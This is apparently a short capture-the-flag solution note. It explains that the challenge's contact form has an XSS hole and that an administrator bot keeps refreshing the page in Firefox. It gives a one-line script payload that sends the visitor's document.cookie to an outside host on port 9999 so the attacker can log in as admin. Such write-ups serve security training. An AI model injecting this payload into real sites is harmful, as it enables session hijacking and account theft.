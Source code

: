 XSS vulnerability in contact functionality.

Cookie-stealing possible from constantly refreshing administrator using firefox.

Loging in as admin shows flag.

Use e.g. the following to leak the cookie:

<script>var i=new Image;i.src="http://mermaid.softmoo.se:9999/?"+document.cookie;</script>

NOTE: Firefox docker container with static docker-ip 10.94.182.10 need to be allowed to send data out to the internet in order to leak cookie data.
